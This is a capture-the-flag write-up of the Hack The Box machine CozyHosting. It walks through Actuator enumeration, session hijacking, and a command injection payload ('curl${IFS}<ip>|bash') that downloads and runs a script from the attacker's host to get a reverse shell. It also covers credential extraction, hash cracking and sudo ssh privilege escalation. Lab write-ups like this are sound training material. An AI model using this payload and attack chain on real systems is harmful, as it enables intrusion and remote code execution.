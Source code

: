 ```yaml
---
title: HTB - CozyHosting
pin: true
layout: ""
author: [ Scott & Jolicious ]
math: true
date: 2024-03-05 
mermaid: true
icon: https://wolfcareers.com/wp-content/uploads/2023/01/1_cQGpZGkSuehv-YEXUweMQ-e1672674616339.webp
---
```


![alt text](/cozyhos/CozyHosting.png)

## Overview:
CozyHosting is an Linux Easy Machine that features a Spring Boot application. The Actuator endpoint has access to get mappings and sessions. A user's session cookie can be found by enumerating the endpoint, which grants authenticated access to the main dashboard. The program is susceptible to command injection, which can be used to take control of the remote computer and obtain a reverse shell. By counting the JAR files in the application, hardcoded login credentials are found and utilized to access the local database. Once the hashed password in the database has been cracked, it may be used to get onto the computer as the user Josh. SSH as root is permitted for the user, and this is used to fully escalate rights.


## Recon
---

### Nmap:

As always start with port scanning of cozyHosting using nmap:

```python
kali Easy/CozyHosting » sudo nmap -sC -sV 10.10.11.230  -oN nmap/initial
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 12:14 +0545
Nmap scan report for 10.10.11.230 (10.10.11.230)
Host is up (0.70s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp   open  http      nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
4444/tcp open  krb524?
8000/tcp open  http-alt?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 144.19 seconds
```

The nmap result listed out the different ports i.e 80, 4444 and 8000.
 <br>
The TCP Port 80 didnot follow redirection. So adding `cozyhosting.htb` at /etc/hosts.

### HTTP 80 

![1](/cozyhos/1.png)

This site seems like to be web hosting. while navigating the website there is login page . Jump into their.

![alt text](/cozyhos/2.png)

There was nothing much interesting or any injections like Sql, etc in login page.

Fuzz the directories using Dirsearch.
![alt text](/cozyhos/3.png)

There is something identified or found the actuator directories. 

Search actuator in google.
![alt text](/cozyhos/4.png)

It is the `Spring Boot Actuator`. 

While continuously searching the Spring Boot Actuator there is the some documentation about mappings and seesions. 
- `mappings` endpoint which provides information about the application’s request mappings and 
- `sessions` endpoint which provides information about the application’s HTTP sessions that are managed by Spring Session.

Through we might find these fuzzing directories.

```bash
kali Easy/CozyHosting » cat reports/http_cozyhosting.htb/output.txt 
200     5KB  http://cozyhosting.htb/actuator/env
200     0B   http://cozyhosting.htb/actuator/;/prometheus
200    15B   http://cozyhosting.htb/actuator/health
200    10KB  http://cozyhosting.htb/actuator/mappings
200    98B   http://cozyhosting.htb/actuator/sessions
200   124KB  http://cozyhosting.htb/actuator/beans
401    97B   http://cozyhosting.htb/admin
```
## Foothold

Lets see `/actuator/mappings` 
![alt text](/cozyhos/5.png)

OR, 
```bash
kali Easy/CozyHosting »  curl http://cozyhosting.htb/actuator/mappings -X GET | jq .  
```
![alt text](/cozyhos/or2.png)

And see `/actuator/sessions` 
![alt text](/cozyhos/6.png)

OR,
```bash
kali Easy/CozyHosting » curl http://cozyhosting.htb/actuator/sessions -X GET | jq . 
```
![alt text](/cozyhos/or1.png)



There is jsessionid cookie with the session for kanderson to access the admin page. so it is `Session-Hiiacking` .

### Session Hijacking

While inspecting, go to cookie settings and replace the jsessionid with kanderson sessionid 

![alt text](/cozyhos/7.png)

When refreshing the page `/login` or `/admin` it goes to Admin Dashboard.

![alt text](/cozyhos/8.png)

Success !

### Host into Automatic Patching

Submitting the hostname as with localhost and Username as abc
![alt text](/cozyhos/AP.png)

it shows host key failed.

![alt text](/cozyhos/AP1.png)

The error  indicate that the service is attempting to connect to the specified host via SSH something like that:

```bash
ssh -i id_rsa username@hostname
```
It must be Command Injection

and we tried to run some command and got this errors as follows that the whitespaces aren't allowed.
![alt text](/cozyhos/18.png)


### Command Injection 

If it is Command Injection, the thing is that White spaces are not allowed in the username box. Lets search for whitespace box with spaces. 

![alt text](/cozyhos/9.png)

Found it says that so to bypass we can use ${IFS} as single space. which is a special shell variable that stands for
Internal Field Separator and defaults to a space  in shells like `Bash` and `sh` . It must be something like these testing in the username if it so.

```bash
abc;curl${IFS}+$IP;
```

Open a python server with 8000. When submitting the hostname as abc and username as ``;curl${IFS}10.10.16.14|bash;#``

![alt text](/cozyhos/11.png)

It hitted back to local host

![alt text](/cozyhos/12.png)

Lets first get a reverse shell whith creating sh file named `a.sh` and add:
![alt text](/cozyhos/10.png)

Hit a submit button with the payload that callback o our reverse shell handler. 
![alt text](/cozyhos/14.png)

Same using python server as well as listen a netcat with 9001. 

![alt text](/cozyhos/13.png)

Got shell `app@cozyhosting`. 

First stabilize the shell using `/usr/bin/script -qc /bin/bash /dev/null`. After that, there is jar file called ``cloudhosting-0.0.1.jar`` . 
![alt text](/cozyhos/15.png)

Download it to our local machine using python3 server from remote and wget.
![alt text](/cozyhos/16.png)

After we decrypt the jar file and run this command and get password
![alt text](/cozyhos/17.png)

Got the credentials i.e postgres:Vg&nvzAQ7XxR for postgres database of `app@cloudhosting` . 
login in postgres instance using these command:
```bash
psql -U postgres -h 127.0.0.1 -W -p 5432
```
We are able to access the postgres sql.
![alt text](/cozyhos/19.png)
We check the databases present in the DBMS.

![alt text](/cozyhos/20.png)
Cozyhosting is the database we need to enumerate. We use the following command to connect to the database cozyhosting.

```bash
\c cozyhosting
```
![alt text](/cozyhos/21.png)
There are 3 tables in the database cozyhosting. Looking at the names, it looks like the table that would be useful to us is users.
![alt text](/cozyhos/22.png)
There are two hash in the table users `admin` and `kanderson`.

![alt text](/cozyhos/23.png)

We save the hash in a file and run john in order to crack the hash. John is able to crack the hash and we get the password as `manchesterunited`.
![alt text](/cozyhos/25.png)
Login as another user that is `josh` and see the `sudo` privileges we have as the user. We can run `ssh` using `sudo`.
![alt text](/cozyhos/26.png)
GTFObins has some useful information in order to run commands using `ssh` .
![alt text](/cozyhos/27.png)
We run the command as seen in GTFObin and get root access in the machine.
![alt text](/cozyhos/28.png)
                
### THE END !

### REFERENCES:
1. https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces
2. https://gtfobins.github.io/gtfobins/ssh/
   
